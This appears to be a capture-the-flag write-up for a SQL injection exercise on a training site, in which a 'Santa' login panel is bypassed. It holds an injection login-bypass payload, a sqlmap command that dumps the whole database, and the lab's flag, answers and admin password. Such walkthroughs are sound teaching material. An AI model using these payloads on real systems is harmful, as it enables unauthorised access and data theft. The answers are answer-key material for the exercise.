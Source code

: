 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2875%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2845%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2869%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2820%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2851%29.png)

![](../.gitbook/assets/image%20%2813%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2826%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2870%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%282%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}


